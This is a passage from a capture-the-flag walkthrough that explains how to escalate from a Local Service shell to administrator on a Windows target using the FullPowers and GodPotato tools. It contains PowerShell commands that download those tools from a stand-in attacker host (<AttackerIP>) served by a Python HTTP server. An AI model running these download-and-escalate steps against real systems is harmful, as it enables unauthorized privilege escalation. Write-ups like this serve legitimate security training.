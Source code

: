 We get a shell as NT Authority\Local Service
![](Visual/shelllocal.png)
![](Visual/localshell.png)

### FullPowers

We still can't access the administrator flag

Since we have a local service account, we can use [FullPowers](https://github.com/itm4n/FullPowers) to escalate our privileges and allows us to use [GodPotato](https://github.com/BeichenDream/GodPotato) and impersonate another client, to get the admin flag

Download both [FullPowers](https://github.com/itm4n/FullPowers) and [GodPotato](https://github.com/BeichenDream/GodPotato) to local machine

Start Python http server in the files directory
``` bash
$ python3 -m http.server 8000
```

Download the files in our target machine
``` cmd
powershell Invoke-WebRequest -Uri http://<AttackerIP>:8000/FullPowers.exe -OutFile Fullpowers.exe
powershell Invoke-WebRequest -Uri http://<AttackerIP>:8000/GodPotato.exe -OutFile GodPotato.exe
dir
```
![](Visual/fullpowersgodpotato.png)
